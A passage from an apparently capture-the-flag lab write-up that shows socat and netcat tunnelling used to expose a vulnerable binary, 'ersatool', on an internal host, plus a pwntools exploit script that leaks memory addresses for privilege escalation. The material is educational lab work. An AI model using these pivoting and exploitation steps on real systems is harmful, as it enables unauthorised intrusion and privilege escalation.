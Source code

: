 On web I ran `/tmp/nc -lnvp 4433 < socat`. Then I ran that script, and it go `socat` (and the MD5s matched).

On pki:

```

www-data@pki:/tmp$ ./socat TCP-LISTEN:9001,reuseaddr,fork EXEC:ersatool

```

On web:

```

www-data@web:/tmp$ ./socat tcp-listen:9001,reuseaddr,fork tcp:pki:9001

```

Now from my host, I can connect to the running binary:

```

oxdf@parrot$ nc 172.20.0.10 9001
# print
print->CN=0xdf
0xdf[!] ERR reading /opt/easyrsa/clients/0xdf.ovpn!

print->CN=

```

At the top of the script, I’ll add:

```

if args['REMOTE']:
    p = remote('172.20.0.10', 9001)
else:
    p = process('./ersatool')

```

With PwnTools, now if I add `REMOTE` as an arg, it will go remote, and otherwise local.

One last snag was that `/dev/shm` is mounted `noexec` on pki, so I can execute out of there. I’ll switch to `/tmp` in the script by changing that string.

I’ll open a third shell to web (one has www-data shell from pki which has `socat` serving `ersatool`, one has `socat` tunneling from my host to pki), and start `nc` listening on 4433.

Locally, I’ll run the script to target remove. It leaks the address, and then hangs:

```

oxdf@parrot$ python3 root.py REMOTE
[+] Opening connection to 172.20.0.10 on port 9001: Done
[+] Leaked EXT address:          0x000056253b35215f
[+] Calculated ERSA_DIR address: 0x000056253b3520f0

```
